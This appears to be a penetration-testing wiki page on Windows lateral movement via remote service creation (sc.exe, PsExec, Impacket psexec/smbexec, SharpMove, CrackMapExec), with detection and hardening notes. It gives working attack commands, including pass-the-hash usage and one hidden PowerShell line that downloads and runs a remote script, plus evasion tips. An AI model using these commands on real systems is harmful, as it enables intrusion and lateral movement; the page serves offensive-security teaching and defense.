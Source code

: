 # PsExec/Winexec/ScExec/SMBExec


## How do they work

These techniques abuse the Windows Service Control Manager (SCM) remotely over SMB/RPC to execute commands on a target host. The common flow is:

1. Authenticate to the target and access the ADMIN$ share over SMB (TCP/445).
2. Copy an executable or specify a LOLBAS command line that the service will run.
3. Create a service remotely via SCM (MS-SCMR over \PIPE\svcctl) pointing to that command or binary.
4. Start the service to execute the payload and optionally capture stdin/stdout via a named pipe.
5. Stop the service and clean up (delete the service and any dropped binaries).

Requirements/prereqs:
- Local Administrator on the target (SeCreateServicePrivilege) or explicit service creation rights on the target.
- SMB (445) reachable and ADMIN$ share available; Remote Service Management allowed through host firewall.
- UAC Remote Restrictions: with local accounts, token filtering may block admin over the network unless using the built-in Administrator or LocalAccountTokenFilterPolicy=1.
- Kerberos vs NTLM: using a hostname/FQDN enables Kerberos; connecting by IP often falls back to NTLM (and may be blocked in hardened environments).

### Manual ScExec/WinExec via sc.exe

The following shows a minimal service-creation approach. The service image can be a dropped EXE or a LOLBAS like cmd.exe or powershell.exe.

```cmd
:: Execute a one-liner without dropping a binary
sc.exe \\TARGET create HTSvc binPath= "cmd.exe /c whoami > C:\\Windows\\Temp\\o.txt" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc

:: Drop a payload to ADMIN$ and execute it (example path)
copy payload.exe \\TARGET\ADMIN$\Temp\payload.exe
sc.exe \\TARGET create HTSvc binPath= "C:\\Windows\\Temp\\payload.exe" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc
```
```
Notes:
- Expect a timeout error when starting a non-service EXE; execution still happens.
- To remain more OPSEC-friendly, prefer fileless commands (cmd /c, powershell -enc) or delete dropped artifacts.

Find more detailed steps in: https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

## Tooling and examples

### Sysinternals PsExec.exe

- Classic admin tool that uses SMB to drop PSEXESVC.exe in ADMIN$, installs a temporary service (default name PSEXESVC), and proxies I/O over named pipes.
- Example usages:

```cmd
:: Interactive SYSTEM shell on remote host
PsExec64.exe -accepteula \\HOST -s -i cmd.exe

:: Run a command as a specific domain user
PsExec64.exe -accepteula \\HOST -u DOMAIN\user -p 'Passw0rd!' cmd.exe /c whoami /all

:: Customize the service name for OPSEC (-r)
PsExec64.exe -accepteula \\HOST -r WinSvc$ -s cmd.exe /c ipconfig
```
```
- You can launch directly from Sysinternals Live via WebDAV:

```cmd
\\live.sysinternals.com\tools\PsExec64.exe -accepteula \\HOST -s cmd.exe /c whoami
```
```
OPSEC
- Leaves service install/uninstall events (Service name often PSEXESVC unless -r is used) and creates C:\Windows\PSEXESVC.exe during execution.

### Impacket psexec.py (PsExec-like)

- Uses an embedded RemCom-like service. Drops a transient service binary (commonly randomized name) via ADMIN$, creates a service (default often RemComSvc), and proxies I/O over a named pipe.

```bash
# Password auth
psexec.py DOMAIN/user:Password@HOST cmd.exe

# Pass-the-Hash
psexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST cmd.exe

# Kerberos (use tickets in KRB5CCNAME)
psexec.py -k -no-pass -dc-ip 10.0.0.10 DOMAIN/user@host.domain.local cmd.exe

# Change service name and output encoding
psexec.py -service-name HTSvc -codec utf-8 DOMAIN/user:Password@HOST powershell -nop -w hidden -c "iwr http://10.10.10.1/a.ps1|iex"
```
```
Artifacts
- Temporary EXE in C:\Windows\ (random 8 chars). Service name defaults to RemComSvc unless overridden.

### Impacket smbexec.py (SMBExec)

- Creates a temporary service that spawns cmd.exe and uses a named pipe for I/O. Generally avoids dropping a full EXE payload; command execution is semi-interactive.

```bash
smbexec.py DOMAIN/user:Password@HOST
smbexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST
```
```
### SharpLateral and SharpMove

- [[https://github.com/mertdas/SharpLateral) (C#|SharpLateral]] implements several lateral movement methods including service-based exec.

```cmd
SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName
```
```
- [[https://github.com/0xthirteen/SharpMove|SharpMove]] includes service modification/creation to execute a command remotely.

```cmd
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```
```
- You can also use CrackMapExec to execute via different backends (psexec/smbexec/wmiexec):

```bash
cme smb HOST -u USER -p PASS -x "whoami" --exec-method psexec
cme smb HOST -u USER -H NTHASH -x "ipconfig /all" --exec-method smbexec
```
```
## OPSEC, detection and artifacts

Typical host/network artifacts when using PsExec-like techniques:
- Security 4624 (Logon Type 3) and 4672 (Special Privileges) on target for the admin account used.
- Security 5140/5145 File Share and File Share Detailed events showing ADMIN$ access and create/write of service binaries (e.g., PSEXESVC.exe or random 8-char .exe).
- Security 7045 Service Install on target: service names like PSEXESVC, RemComSvc, or custom (-r / -service-name).
- Sysmon 1 (Process Create) for services.exe or the service image, 3 (Network Connect), 11 (File Create) in C:\Windows\, 17/18 (Pipe Created/Connected) for pipes such as \\.\pipe\psexesvc, \\.\pipe\remcom_*, or randomized equivalents.
- Registry artifact for Sysinternals EULA: HKCU\Software\Sysinternals\PsExec\EulaAccepted=0x1 on the operator host (if not suppressed).

Hunting ideas
- Alert on service installs where the ImagePath includes cmd.exe /c, powershell.exe, or TEMP locations.
- Look for process creations where ParentImage is C:\Windows\PSEXESVC.exe or children of services.exe running as LOCAL SYSTEM executing shells.
- Flag named pipes ending with -stdin/-stdout/-stderr or well-known PsExec clone pipe names.

## Troubleshooting common failures
- Access is denied (5) when creating services: not truly local admin, UAC remote restrictions for local accounts, or EDR tampering protection on the service binary path.
- The network path was not found (53) or could not connect to ADMIN$: firewall blocking SMB/RPC or admin shares disabled.
- Kerberos fails but NTLM is blocked: connect using hostname/FQDN (not IP), ensure proper SPNs, or supply -k/-no-pass with tickets when using Impacket.
- Service start times out but payload ran: expected if not a real service binary; capture output to a file or use smbexec for live I/O.

## Hardening notes
- Windows 11 24H2 and Windows Server 2025 require SMB signing by default for outbound (and Windows 11 inbound) connections. This does not break legitimate PsExec usage with valid creds but prevents unsigned SMB relay abuse and may impact devices that don’t support signing.
- New SMB client NTLM blocking (Windows 11 24H2/Server 2025) can prevent NTLM fallback when connecting by IP or to non-Kerberos servers. In hardened environments this will break NTLM-based PsExec/SMBExec; use Kerberos (hostname/FQDN) or configure exceptions if legitimately needed.
- Principle of least privilege: minimize local admin membership, prefer Just-in-Time/Just-Enough Admin, enforce LAPS, and monitor/alert on 7045 service installs.

## See also

- WMI-based remote exec (often more fileless):

[[./wmiexec.md]]

- WinRM-based remote exec:

[[./winrm.md]]


## References

- PsExec - Sysinternals | Microsoft Learn: https://learn.microsoft.com/sysinternals/downloads/psexec
- SMB security hardening in Windows Server 2025 & Windows 11 (signing by default, NTLM blocking): https://techcommunity.microsoft.com/blog/filecab/smb-security-hardening-in-windows-server-2025--windows-11/4226591

